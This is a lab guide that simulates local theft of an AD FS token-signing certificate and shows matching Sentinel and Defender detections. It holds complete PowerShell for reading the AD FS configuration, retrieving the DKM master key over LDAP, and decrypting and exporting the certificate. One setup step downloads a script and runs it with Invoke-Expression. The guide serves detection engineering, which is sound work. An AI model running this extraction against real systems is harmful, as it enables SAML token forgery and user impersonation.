# Local Export Active Directory Federation Services (AD FS) Token Signing Certificate

Federation servers require token-signing certificates to prevent attackers from altering or counterfeiting security tokens to gain unauthorized access to Federated resources. 
The AD FS certificates (token signing and decryption) are stored in the AD FS database configuration and they are encrypted using Distributed Key Manager (DKM) APIs. 
Distributed Key Manager (DKM) is a client-side functionality that uses a set of secret keys to encrypt and decrypt information. Only members of a specific security group in Active Directory Domain Services (AD DS) can access those keys in order to decrypt the data that is encrypted by DKM.
When the primary AD FS farm is configured, an AD container (AD FS DKM container) is created in the AD DS server and a DKM master key is stored as part of a contact AD object property in the DKM container. The AD FS DKM master key can then be used by the AD FS service to derive a symmetric key and decrypt AD FS certificates.
If a threat actor retrieves the AD FS DKM master key and decrypts AD FS token signing certificate, the certificate can be used to sign SAML tokens and impersonate users in a federated environment.

## Main Steps
A threat actor could retrieve the AD FS configuration settings and the AD FS DKM master key either locally from the main federation server or remotely from another endpoint in the domain. In this document, we will cover the local execution of this technique.


 
1.	Get AD FS configuration settings.
2.	Get AD FS token signing certificate as an encrypted blob.
3.	Get AD FS DKM Container Active Directory Path.
4.	Get AD FS DKM encryption key from Active Directory.
5.	Decrypt AD FS token signing certificate.
6.	Export AD FS token signing certificate.

Most of the steps from the following sections are code snippets extracted from a well-known open-source tool named [AADInternals](https://github.com/Gerenios/AADInternals) and developed by [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD).

## Get AD FS Configuration Settings
The AD FS configuration settings can be stored in either a Microsoft SQL server database or the Windows Internal Database (WID) feature that is included with Windows server 2008, 2008 R2 and 2012. You can choose or the other one, but not both. For this lab environment, we use WID to store the AD FS configuration database.
A threat actor would first get the AD FS configuration settings to obtain sensitive information such as the AD FS certificates and information about the AD FS DKM container in Active Directory (AD). One can get the AD FS configuration settings either locally or remotely.

### Simulate Local Connection
**Conditions**
* Endpoint: ADFS01
    * Authorization: AD FS Service Account
    * Services Running: Active Directory Federation Services (ADFSSRV)

**Get Database Connection String via WMI Class**
Locally, WID does not have its own management user interface (UI), but one could connect to it via a specific named pipe.  This information can be obtained directly from the “ConfigurationDatabaseConnectionString” property of the SecurityTokenService class from the WMI ADFS namespace.

```PowerShell
$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService
$conn = $ADFS.ConfigurationDatabaseConnectionString
```



**Connect to AD FS database and read configuration**
We can then use the connection string to connect to the AD FS database and read its configuration.

```PowerShell
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn
$SQLclient.Open()
$SQLcmd = $SQLclient.CreateCommand()
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"
$SQLreader = $SQLcmd.ExecuteReader()
$SQLreader.Read() | Out-Null
$settings=$SQLreader.GetTextReader(0).ReadToEnd()
$SQLreader.Dispose()
```



### Detect Local Connection: Azure Sentinel

**AD FS Local Named Pipe Connection Rule**
* Data Source: Windows Sysmon Events
* Data Table: Event

The connection to the AD FS database occurs via the following named pipe:

`\\.\pipe\microsoft##wid\tsql\query`

We could detect the local connection to the named pipe with Sysmon event ID 18 (Pipe Connected) with the following detection and filter out potential false positives.

[AD FS Local Named Pipe Connection Rule](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSKeyExportSysmon.yaml)

**Event Sample**:



## Get AD FS token signing certificate (Encrypted Blob)
Now that we have the AD FS configuration settings, we can parse it and get the AD FS token signing certificate. Make sure the variable `$settings` contains the AD FS configuration settings strings. Also, remember that this step would usually happen outside of the organization.

```PowerShell
[xml]$xml=$settings
$encPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
```



## Get AD FS DKM Container Active Directory Path
Even though we were able to get the AD FS token signing certificate, we still need to decrypt it. As mentioned at the beginning of this document, the AD FS certificates are encrypted using Distributed Key Manager (DKM) APIs and the DKM master key used to derive the symmetric key to decrypt them is stored in the AD DS server.
The AD FS DKM key value is stored in the `ThumbnailPhoto attribute` of a contact AD object in the AD FS DKM container. Therefore, we first need to get the right path to the AD FS DKM container and specific DKM group. We can get this information from the AD FS configuration settings we obtained earlier.

```PowerShell
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
```



## Get AD FS DKM Encryption Key from Active Directory
With the right path to the AD FS DKM container and DKM group in the AD DS server, we have a few options to retrieve the DKM encryption key.

### Lightweight Directory Access Protocol (LDAP)
**Preconditions**
* Endpoint: ADFS01
    * Authorization: AD FS service account
* Endpoint: DC01
    * Authorization: AD FS service account
    * Services Running: Lightweight Directory Access Protocol (LDAP)
    * Ports Open: 389

**LDAP Query with ThumbnailPhoto Attribute in Filter**
We can use LDAP and create a query filtering on specific objects with the ThumbnailPhoto attribute. We can then read the encryption key from the ThumbnailPhoto attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter='(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADUser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```


**LDAP Query Filtering on CryptoPolicy Object to then Access the Right Contact AD Object**
One could filter on the CryptoPolicy contact object inside of the AD FS DKM container and get the value of its DisplayName attribute. This attribute refers to the “l” attribute of the right AD contact object that contains the DKM master key value. The DKM key is stored in its ThumbnailPhoto attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```



## Detect LDAP Queries: Microsoft Defender for Identity

### LDAP Query with “thumbnailPhoto” Property in Filter
When a threat actor sets the property “thumbnailPhoto” as a filter in the LDAP search query, the MDI sensor in the domain controller triggers an alert of type “Active Directory attributes Reconnaissance using LDAP”.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Azure Advanced Threat Protection](https://simuland.atp.azure.com/)”.






## Detect LDAP Queries: Microsoft Cloud App Security

### LDAP Query with “thumbnailPhoto” Property in Filter
You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered a new investigation experience for MDI.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Microsoft Cloud App Security](https://portal.cloudappsecurity.com/)”.



## Detect LDAP Queries: Microsoft Defender for Endpoint

### LDAP Query with “thumbnailPhoto” Property in Filter
Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor sets the property `thumbnailPhoto` as a filter in the LDAP search query.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Microsoft Defender Security Center](https://login.microsoftonline.com/)”
3.	Go to “Incidents”







### LDAP Query with Indirect Access to “thumbnailPhoto” Property
Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor still access the contact AD object holding the DKM key, but without specifying the “thumbnailPhoto” attribute as part of the filter in the LDAP search query.



You might not get another alert in the management user interface (UI), but if you look for the `ADFS private key extraction attempt` alert ID `da637551194580744890_-1579244524` (Unique to the tenant) in the advanced hunting query experience, you will see several of them for the same endpoint.



## Detect Access to AD Object: Azure Sentinel

### AD FS DKM Master Key Export
* Data Source: Windows Security Events
* Data Table: SecurityEvent

We can also audit the access request to the AD FS DKM contact AD object that holds the DKM master key in the AD DS server. This audit rule can be enabled by adding an Access Control Entry (ACE) to the System Access Control List (SACL) of the AD object in the domain controller. [A SACL is a type of access control list to log attempts to access a secured object](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists).

Create audit rule
1.	Connect to the Domain Controller (DC01) via Azure Bastion services as an Administrator
2.	Open PowerShell console as an Administrator
3.	Import Active Directory Module
Import-Module ActiveDirectory
4.	Import the project [Set-AuditRule](https://github.com/OTRF/Set-AuditRule) in GitHub as a PowerShell module to automate the process.

```PowerShell
$uri = 'https://raw.githubusercontent.com/OTRF/Set-AuditRule/master/Set-AuditRule.ps1' 
$RemoteFunction = Invoke-WebRequest $uri –UseBasicParsing 
Invoke-Expression $($RemoteFunction.Content)
```

5.	Get the distinguished name (DN) of the AD Contact object that contains the DKM master key.
6.	Create an “Audit” rule to audit any ‘Generic Read’ requests to that AD object.

```PowerShell
$ADObjectPath = ‘CN=<AD Contact Object>,CN=<DKM Group>,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com’

Set-AuditRule -AdObjectPath “AD:\$ADObjectPath” -WellKnownSidType WorldSid -Rights GenericRead -InheritanceFlags None -AuditFlags Success
```


Once the audit rule is enabled, run any of the previous LDAP search queries to obtain the AD FS DKM master key.  Let’s do it from the `ADFS01` server. You will see the following `Windows Security Event ID 4662` in the Domain Controller:



Something to remember is that the XML representation of the event provides the GUID of the AD FS DKM container object and not the explicit path to the AD object. In our lab environment this `Object Name value` was `caee2871-0305-4711-b88b-44974ca84625`.



Use the following detection rule to explore this activity:

[ADFS DKM Master Key Export](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/MultipleDataSources/ADFS-DKM-MasterKey-Export.yaml)

## Decrypt AD FS Token Signing Certificate
Now that we have the AD FS DKM key, we can use it to derive a symmetric key and decrypt the AD FS token signing certificate. We can use the following code snippet from AADInternals to do so.

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$pfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```



## Export AD FS Token Signing Certificate
We can simply export the token signing certificate cipher text to a .pfx file.
Once again, remember that a threat actor would decrypt and export the token signing certificate and sign SAML tokens in their own environment outside of the organization.

```PowerShell
$CertificatePath = ‘C:\ProgramData\ADFSTokenSigningCertificate.pfx’
$pfx | Set-Content $CertificatePath -Encoding Byte
```



# References
* [Token-Signing Certificates | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/design/token-signing-certificates#:~:text=%20A%20token-signing%20certificate%20must%20meet%20the%20following,in%20the%20personal%20store%20of%20the...%20More%20)
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)

